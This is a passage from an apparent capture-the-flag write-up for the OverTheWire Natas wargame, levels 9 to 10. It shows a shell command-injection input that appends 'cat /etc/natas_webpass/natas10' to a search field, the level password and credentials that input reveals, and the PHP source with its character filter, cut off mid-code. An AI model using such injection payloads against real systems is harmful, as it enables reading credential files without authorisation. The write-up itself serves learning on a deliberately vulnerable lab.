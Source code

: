 ```
zope dictionary.txt; cat /etc/natas_webpass/natas10 | tee
```

This gives us:

```
t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

## Natas 10

### Credentials

Username: natas10

Password: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

URL: http://natas10.natas.labs.overthewire.org

### Message

For security reasons, we now filter on certain characters

Find words containing: ...

### Solution

Now `asd; cat` doesn't work anymore:

> Input contains an illegal character!

Neither does `&&`.

The source code (obtained from the link):

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas10", "pass": "<censored>" };</script></head>
<body>
<h1>natas10</h1>
<div id="content">

For security reasons, we now filter on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
```